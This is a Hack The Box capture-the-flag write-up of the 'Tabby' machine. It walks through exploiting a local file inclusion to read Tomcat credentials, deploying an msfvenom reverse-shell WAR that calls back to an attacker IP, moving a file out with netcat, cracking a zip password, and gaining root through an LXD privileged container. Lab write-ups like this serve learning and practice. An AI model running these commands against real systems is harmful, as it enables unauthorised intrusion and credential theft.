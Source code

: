 ```yaml
---
title: HTB - Tabby Write-up
author: bigb0ss
date: 2020-11-07 19:36:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, tabby, lfi, tomcat, zip2john, lxd, container]
image: /assets/img/post/htb/tabby/01_infocard.png
---
```




[ LFI ] [ Tomcat ] [ Zip2John ] [ LXD ] This was an easy difficulty box. It was pretty easy and straight-forward box. Good learning path to:
* LFI File Enumeration
* Tomcat JSP Script Exploit
* Password Protected .zip File Abuse
* LXD Container Breakout


## Initial Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports to Note

* HTTP (80/TCP) - Mega Hosting Web page. 

![image](/assets/img/post/htb/tabby/02_http.png)

* HTTP (8080/TCP) - Apache Tomcat Default Page.

![image](/assets/img/post/htb/tabby/03_8080.png)

> **NOTE**: I did perform a quick default login check against the manager login portal `/manager/html`, but no luck there. 


## Initial Foothold

### LFI (Mega Hosting Website)

By looking at the source code for the web page, we can discover the domain name `megahosting.htb`. Let’s add that into our `/etc/hosts` file. 

![image](/assets/img/post/htb/tabby/04_hosts.png)

And we can see that `http://megahosting.htb/news.php?file=` is vulnerable to LFI, and we can read arbitrary files within the system.

![image](/assets/img/post/htb/tabby/05_lfi.png)

Indeed, the `news.php` was badly written to be vulnerable to LFI. It simply takes the user supplied filename and opens it up. 

![image](/assets/img/post/htb/tabby/06_burp.png)

<b>tomcat</b>
Since we know that there is a Tomcat 9 server running on the port `8080`, we can leverage the LFI to find sensitive data such as `tomcat-users.xml`. The file was located at `/usr/share/tomcat9/etc/tomcat-users.xml` (The file wasn’t in a typical location, so I had to some trial-and-error and bruteforcing.) Within the file, we can see the credentials for the Tomcat Manager console.

```console
User: tomcat
Pass: $3cureP4s5w0rd123!
```

![image](/assets/img/post/htb/tabby/07_burp.png)

Although we have the right creds, when we try to access the `/manager/html` page, we get a 403 Access Denied.

![image](/assets/img/post/htb/tabby/08_accessdeni.png)

However, we can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > bigb0ss.war
```

Then, using `curl`, deploy the payload:

```console
$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file bigb0ss.war 'http://10.10.10.194:8080/manager/text/deploy?path=/bigb0ss'

OK - Deployed application at context path [/bigb0ss]
```

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

![image](/assets/img/post/htb/tabby/09_rce.png)


## Privilege Escalation

### tomcat —> ash

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

![image](/assets/img/post/htb/tabby/10_ash.png)

Within the directory, there is an interesting `.zip` file.

![image](/assets/img/post/htb/tabby/11_ash.png)

And using the following `netcat` commands, we can download the `.zip` file to our Kali box:

```console
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

![image](/assets/img/post/htb/tabby/12_ash.png)

<b>Zip Password Cracking</b>
So, the `.zip` file was protected with a password.

![image](/assets/img/post/htb/tabby/13_ash.png)

We can use `zip2john` and `john` to potentially crack the password. 

```console
# zip2john
$ zip2john backup.zip > bakcup-prep.zip

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip
```

And it cracked the password as `admin@it`

![image](/assets/img/post/htb/tabby/14_ash.png)

<b>user.txt</b>

The recovered password was indeed valid to unzip the file; however, there was nothing. Instead, that was a correct password for the `ash` user. We can now login as `ash` and read the `user.txt` flag.

![image](/assets/img/post/htb/tabby/15_ash.png)


### ash —> root (LXD Privilege Escalation)

From the above image, we can see that `ash` is member of the `LXD` group. It is a Linux Daemon (LXD) that is a lightweight container hypervisor. And there is a known privilege escalation path for a local user that is part of the `LXD` group to gain `root` access on the system. More details about the attack can be found [here] (https://www.hackingarticles.in/lxd-privilege-escalation/).

So the attack contains 2 step processes:

On the Kali Box:

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Once it’s built, we will see the `.tar.gz` file.

![image](/assets/img/post/htb/tabby/16.png)

And let’s move the file to the Tabby box:

![image](/assets/img/post/htb/tabby/17.png)

![image](/assets/img/post/htb/tabby/18.png)

On the Tabby Box:

```console
# Initiating the LXD (*Answer things for default setting)
$ lxd init

# Import Image
$ lxc image import ./alpine-v3.12-x86_64-20201030_0034.tar.gz --alias bigb0ss

$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| bigb0ss | c57d8b79d13e | no     | alpine v3.12 (20201030_00:34) | x86_64       | CONTAINER | 3.07MB | Oct 30, 2020 at 4:58am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

$ lxc init bigb0ss priv -c security.privileged=true
$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start priv
```

Once we started the `priv`, then, we can run the following command to escalate our privilege to `root` and read the `root.txt` flag.

```console
$ lxc exec priv /bin/sh

~ # ^[[51;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[51;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
b0d<REDACTED>d7c
```

Thanks for reading! 
